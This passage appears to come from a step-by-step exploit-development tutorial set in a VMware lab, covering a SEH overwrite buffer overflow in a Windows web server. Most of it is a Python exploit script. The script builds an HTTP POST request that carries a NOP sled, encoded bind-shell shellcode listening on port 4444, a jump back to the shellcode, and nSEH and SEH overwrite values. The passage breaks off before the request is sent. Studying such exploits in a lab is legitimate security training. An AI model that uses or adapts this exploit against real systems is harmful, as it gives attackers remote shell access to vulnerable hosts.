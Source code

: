 [![](https://1.bp.blogspot.com/-Nlh0UdC-R_Y/VEGuMkus_6I/AAAAAAAAAdA/7rI77nvnIe0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_074.png)](https://1.bp.blogspot.com/-Nlh0UdC-R_Y/VEGuMkus_6I/AAAAAAAAAdA/7rI77nvnIe0/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_074.png)

[](https://3.bp.blogspot.com/-bKAX0JrrJ9E/VEGsENgV-iI/AAAAAAAAAcc/uKO7N32Pbaw/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_071.png)

As you can see this results in us hitting somewhere near the beginning of our shellcode:

[![](https://2.bp.blogspot.com/-e0Z296USo4Q/VEGubzPf4aI/AAAAAAAAAdQ/hm5wII-fSaU/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_075.png)](https://2.bp.blogspot.com/-e0Z296USo4Q/VEGubzPf4aI/AAAAAAAAAdQ/hm5wII-fSaU/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_075.png)

Ok, now all we have to modify the exploit one last time to include the exploit code for a windows/shell_bind_tcp shell on port 4444, excluding the bad characters \x00\x20\x3F:

```python
#!/bin/python
import socket

shellcode = "\x90" * 20

buf = ""
buf += "\xb8\x5d\x64\xb6\xa1\xdb\xde\xd9\x74\x24\xf4\x5b\x2b"
buf += "\xc9\xb1\x56\x31\x43\x13\x03\x43\x13\x83\xc3\x59\x86"
buf += "\x43\x5d\x89\xcf\xac\x9e\x49\xb0\x25\x7b\x78\xe2\x52"
buf += "\x0f\x28\x32\x10\x5d\xc0\xb9\x74\x76\x53\xcf\x50\x79"
buf += "\xd4\x7a\x87\xb4\xe5\x4a\x07\x1a\x25\xcc\xfb\x61\x79"
buf += "\x2e\xc5\xa9\x8c\x2f\x02\xd7\x7e\x7d\xdb\x93\x2c\x92"
buf += "\x68\xe1\xec\x93\xbe\x6d\x4c\xec\xbb\xb2\x38\x46\xc5"
buf += "\xe2\x90\xdd\x8d\x1a\x9b\xba\x2d\x1a\x48\xd9\x12\x55"
buf += "\xe5\x2a\xe0\x64\x2f\x63\x09\x57\x0f\x28\x34\x57\x82"
buf += "\x30\x70\x50\x7c\x47\x8a\xa2\x01\x50\x49\xd8\xdd\xd5"
buf += "\x4c\x7a\x96\x4e\xb5\x7a\x7b\x08\x3e\x70\x30\x5e\x18"
buf += "\x95\xc7\xb3\x12\xa1\x4c\x32\xf5\x23\x16\x11\xd1\x68"
buf += "\xcd\x38\x40\xd5\xa0\x45\x92\xb1\x1d\xe0\xd8\x50\x4a"
buf += "\x92\x82\x3c\xbf\xa9\x3c\xbd\xd7\xba\x4f\x8f\x78\x11"
buf += "\xd8\xa3\xf1\xbf\x1f\xc3\x28\x07\x8f\x3a\xd2\x78\x99"
buf += "\xf8\x86\x28\xb1\x29\xa6\xa2\x41\xd5\x73\x64\x12\x79"
buf += "\x2b\xc5\xc2\x39\x9b\xad\x08\xb6\xc4\xce\x32\x1c\x73"
buf += "\xc9\xfc\x44\xd0\xbe\xfc\x7a\xc7\x62\x88\x9d\x8d\x8a"
buf += "\xdc\x36\x39\x69\x3b\x8f\xde\x92\x69\xa3\x77\x05\x25"
buf += "\xad\x4f\x2a\xb6\xfb\xfc\x87\x1e\x6c\x76\xc4\x9a\x8d"
buf += "\x89\xc1\x8a\xc4\xb2\x82\x41\xb9\x71\x32\x55\x90\xe1"
buf += "\xd7\xc4\x7f\xf1\x9e\xf4\xd7\xa6\xf7\xcb\x21\x22\xea"
buf += "\x72\x98\x50\xf7\xe3\xe3\xd0\x2c\xd0\xea\xd9\xa1\x6c"
buf += "\xc9\xc9\x7f\x6c\x55\xbd\x2f\x3b\x03\x6b\x96\x95\xe5"
buf += "\xc5\x40\x49\xac\x81\x15\xa1\x6f\xd7\x19\xec\x19\x37"
buf += "\xab\x59\x5c\x48\x04\x0e\x68\x31\x78\xae\x97\xe8\x38"
buf += "\xde\xdd\xb0\x69\x77\xb8\x21\x28\x1a\x3b\x9c\x6f\x23"
buf += "\xb8\x14\x10\xd0\xa0\x5d\x15\x9c\x66\x8e\x67\x8d\x02"
buf += "\xb0\xd4\xae\x06"

shellcode += buf

jmpShellcode = "\xE9\xF3\xFC\xFF\xFF" # JMP to the beginning of our shellcode
initial = "\x41" * (790 - len(shellcode)-len(jmpShellcode))
nseh = "\xEB\xF0\x90\x90" # JMP backwards 15 bytes
seh = "\xC2\x15\x40" #004015C2 -> POP EDI, POP EBP, RETN from Application itself


buffer = "POST /" + shellcode + initial + jmpShellcode + nseh + seh + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
```